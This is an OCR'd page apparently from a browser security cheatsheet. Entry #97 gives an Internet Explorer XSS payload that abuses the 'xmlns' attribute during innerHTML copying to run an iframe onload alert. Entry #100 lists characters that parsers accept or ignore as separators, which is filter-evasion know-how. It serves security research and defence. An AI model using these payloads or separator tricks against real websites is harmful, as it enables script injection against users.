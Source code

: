 *   xss

*   internet explorer
*   archive
*   mhtml

*   [`en.wikipedia.org/wiki/MHTML`](http://en.wikipedia.org/wiki/MHTML)

*   [`bolknote.ru/2006/08/24/~312/`](http://bolknote.ru/2006/08/24/~312/)
*   [`openmya.hacker.jp/hasegawa/security/ms07-034.txt`](http://openmya.hacker.jp/hasegawa/security/ms07-034.txt)
*   [`www.microsoft.com/technet/security/advisory/2501696.mspx`](http://www.microsoft.com/technet/security/advisory/2501696.mspx)
*   [`technet.microsoft.com/security/bulletin/ms11-026`](http://technet.microsoft.com/security/bulletin/ms11-026)

reporter：Bolk, LeverOne

### XSS using "xmlns" attribute in custom tag when copying innerHTML (2)#97test

Internet Explorer incorrectly analyzes the attribute "xmlns" in custom tags when copying innerHTML - its value is being added to the tag <?XML:NAMESPACE> without any delimiters.

```
<!-- IE 5-9 --> <div id=d><x ></div> <script>d.innerHTML+='';</script> <!-- IE 10 in IE5-9 Standards mode --> <div id=d><x xmlns='"><iframe onload=alert(2)//'></div> <script>d.innerHTML+='';</script> 
```

Be very careful when handling user generated HTMl in the DOM later on. The innerHTML property does not always contain what it's supposed to.

*   internet explorer 6.0
*   internet explorer latest (in older docmodes)

*   xss

*   javascript
*   internet explorer
*   script
*   dom
*   innerhtml

*   #59

*   #98
*   #128

reporter：LeverOne

### HTML separators and ignored characters#100test

[a] Characters accepted as tag name/attribute separators. Firefox, Internet Explorer, Safari, Google Chrome, Opera : 9,10,12,13,32,47 Internet Explorer (5-9 SM): 11 [b] Characters ignored before attributes (and not accepted as parameter/attribute separators). Firefox, Internet Explorer, Safari, Google Chrome, Opera : 47 Internet Explorer (5-9 SM): 0 **[c] Characters ignored between attribute name and equals sign. Firefox, Internet Explorer, Safari, Google Chrome, Opera : 9,10,12,13,32 Internet Explorer (5-9 SM): 0,11 [d] Characters accepted as parameter/attribute separators. Firefox, Internet Explorer, Safari, Google Chrome, Opera : 9,10,12,13,32 Internet Explorer (5-9 SM): 11 [e] Characters ignored between equals sign and parameter. Firefox, Internet Explorer, Safari, Google Chrome, Opera : 9,10,12,13,32 Internet Explorer (5-9 SM): 0,11 * Characters are given as decimal ASCII table index.** There is a common rule that the unencoded null character does not exist for IE HTML parser.
